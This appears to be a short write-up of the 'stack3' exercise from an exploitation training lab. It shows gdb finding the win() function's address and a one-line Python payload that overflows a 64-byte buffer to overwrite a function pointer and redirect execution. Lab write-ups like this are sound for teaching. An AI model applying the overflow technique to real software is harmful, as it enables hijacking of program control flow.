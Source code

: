 #### Stack3

This program makes a pointer to a function, you need to modidy the pointer to access the function.
The function address is known from gdb.
```bash
gdb stack3
(gdb) info functions
...
File stack3/stack3.c:
int main(int, char **);
void win(void);
...

(gdb) disas win
Dump of assembler code for function win:
0x08048424 <win+0>:	push   %ebp
...
```
---

The start function addres is 0x08048424, so as always, fill the buffer with characters and the access to the pointer and modify it to enter in the function.

```bash
echo `python -c 'print("X"*64 + "\x24\x84\x04\x08")'` | ./stack3
``` 
